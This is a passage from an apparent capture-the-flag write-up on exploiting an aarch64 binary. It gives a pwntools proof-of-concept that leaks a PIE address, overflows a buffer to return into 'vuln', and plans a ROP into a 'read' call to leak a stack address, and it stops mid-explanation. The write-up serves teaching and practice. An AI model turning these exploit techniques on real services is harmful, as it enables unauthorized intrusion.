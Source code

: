And we can see that the binary now reads our name in again and we can get another leak.

![](https://i.imgur.com/0xhA4dY.png)

### Leak Stack

Now that we have PIE leaked we need to leak an address on the stack of which we can then control what the address is pointing to.

The following POC will send a second name so we can see what data we can leak.

```python
from pwn import *
context.binary = elf = ELF("./vuln")

io = remote("127.0.0.1",1337)

name = b"A"*8
io.sendlineafter(b"name: ",name)
io.readuntil(name)
pie_leak = u64(io.readuntil("\n; send",drop=True).ljust(8,b"\x00")) - 2058
print("PIE: " + hex(pie_leak))
elf.address = pie_leak

message = b"A"*0x20
message += b"B"*8
message += p64(elf.symbols['vuln'])
io.sendlineafter(b"message now: ",message)

io.clean()
second_name = b"A"
io.sendline(name)

io.interactive()
```

Inspecting `x1` at the time of the second printf call:

![](https://i.imgur.com/hawzp56.png)

Unfortunetly, a libc address does not appear until 0x68 bytes from our string and the read we have can only read 0x1f bytes.

Instead of ropping to the start of `vuln` we can rop to `vuln+0x18` (the `bl read`). 

![](https://i.imgur.com/xRrtZc7.png)

This will call read with the arguments already in `x0`, `x1` and `x2`, which luckly are the following at the time we control `pc`.

![](https://i.imgur.com/PaLYXLJ.png)

So now we can read 0x200 bytes

Send 0x77 characters so the next bytes are the stack address.
